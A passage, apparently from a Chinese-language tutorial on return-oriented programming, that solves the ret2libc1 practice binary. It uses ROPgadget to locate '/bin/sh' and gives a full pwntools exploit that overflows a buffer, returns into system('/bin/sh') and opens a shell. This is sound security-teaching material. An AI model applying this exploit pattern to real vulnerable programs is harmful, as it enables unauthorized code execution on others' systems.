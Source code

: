 ![](/img/in-post/ROP/16.PNG)

用ROPgadget工具寻找“bin/sh”字符串：`ROPgadget --binary ret2libc1 --string '/bin/sh'`

![](/img/in-post/ROP/17.PNG)

编写exp：

```python
from pwn import *
p=process('./ret2libc1')
bin_addr=0x8048720
sys_addr=0x8048460
payload='a'*112 + p32(sys_addr)+ 'b'*4 +p32(bin_addr)
p.sendline(payload)
p.interactive()
```

运行exp，得到shell

![](/img/in-post/ROP/18.PNG)
